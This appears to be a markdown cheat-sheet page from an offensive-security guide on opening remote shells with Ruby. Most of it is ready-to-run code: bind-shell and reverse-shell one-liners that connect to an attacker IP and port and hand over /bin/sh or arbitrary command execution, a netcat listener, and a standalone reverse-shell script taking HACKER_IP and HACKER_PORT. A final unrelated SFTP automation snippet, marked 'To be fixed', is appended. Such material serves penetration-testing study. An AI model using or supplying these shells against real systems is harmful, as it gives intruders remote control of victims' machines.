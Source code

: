 # Remote Shell

> **Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
since `192.168.0.15` is the victim IP

## Reverse shell
Attacker is listining on port 4444 `nc -lvp 4444`. Now on victim machine run
```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't whant to rely on `/bin/sh`
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

if you don't whant to rely on `cmd.exe`
```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you what it as more flixable script file

```ruby
#!/usr/bin/env ruby
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```
- To listen 
```
ruby ncat.rb -lvp 9911 
```


## Bind and Reverse shell 
This is an awesome implementation for a standalone  [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by [Hood3dRob1n](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells) on github . The bind shell requires authentication while reverse is not.




## Pseudo Terminal (PTY)
To be fixed
```ruby
# https://gist.github.com/kwent/e2c34c2dfd01a194a49a
# http://ruby-doc.org/stdlib-2.2.0/libdoc/pty/rdoc/PTY.html

require 'pty'
require 'expect'
PTY.spawn('sftp username@sftp.domain.com:/uploads') do |input, output|
  # Say yes to SSH fingerprint
  input.expect(/fingerprint/, 2) do |r|
    output.puts "yes" if !r.nil?
    # Enter SFTP password
    input.expect(/password/, 2) do |r|
      output.puts 'your_sftp_password' if !r.nil?
      input.expect(/sftp/) do
        # List folders and files in `/uploads`
        output.puts 'ls'
        # Check if folder named `foo` exist
        input.expect(/foo/, 1) do |result|
          is_folder_exist = result.nil? ? false : true
          # Create `foo` folder if does'nt exist
          output.puts "mkdir foo" if !is_folder_exist
          # Change directory to `foo`
          output.puts "cd foo"
          # Upload `/path/to/local/foo.txt` in `foo` folder as `foo.txt`
          output.puts "put /path/to/local/foo.txt foo.txt"
          # Exit SFTP
          output.puts "exit"
        end
      end
    end
  end
end
```


